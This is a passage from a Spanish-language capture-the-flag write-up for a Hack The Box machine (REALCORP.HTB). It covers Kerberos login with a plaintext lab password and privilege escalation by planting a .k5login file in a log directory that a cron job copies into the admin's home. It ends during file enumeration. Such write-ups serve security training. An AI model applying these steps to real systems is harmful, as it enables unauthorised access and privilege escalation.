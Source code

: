 Cacheamos las credenciales del usuario al kerberos con el commando

```bash
> kinit j.nakazawa
Password for j.nakazawa@REALCORP.HTB: sJB}RM>6Z~64_
```

Vemos que un fichero `/tmp/krb5cc_0` a sido creado y ahora podemos connectar por ssh 

```bash
ssh j.nakazawa@10.10.10.224
```

Ya estamos en la maquina 10.10.10.224 y podemos leer la flag.
## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
id
cat /etc/crontab
```

Aqui vemos que hay una tarea que se ejecuta por el usuario admin cada minuto. El script es `/usr/local/bin/log_backup.sh`
Este archivo basicamente copia lo que hay en el directorio `/var/log/squid` en el directorio `/home/admin`.

```bash
cd /home/admin
cd /var/log/
ls -la | grep squid
```

Vemos que podemos escribir en el /var/log/squid pero no podemos entrar en el /home/admin.

Buscando por internet, vemos que existe un fichero que se puede poner en el directorio del usuario y que permite dar
conneccion con kerberos. Este fichero seria .k5login.


```bash
cd /var/log/squid/
echo 'j.nakazawa@REALCORP.HTB' > .k5login
```

Esperamos un poco y lanzamos desde nuestra maquina de atacante una conneccion ssh

```bash
ssh admin@10.10.10.224
```

Ahora que estamos conectados como admin miramos como nos podemos pasar a root


```bash
cd /
find / -type f -user admin 2>/dev/null
find / -type f -user admin 2>/dev/null | grep -v "proc"
find / -type f -user admin 2>/dev/null | grep -v -E "proc|cgroup"
find / -type f -group admin 2>/dev/null | grep -v -E "proc|cgroup"
```
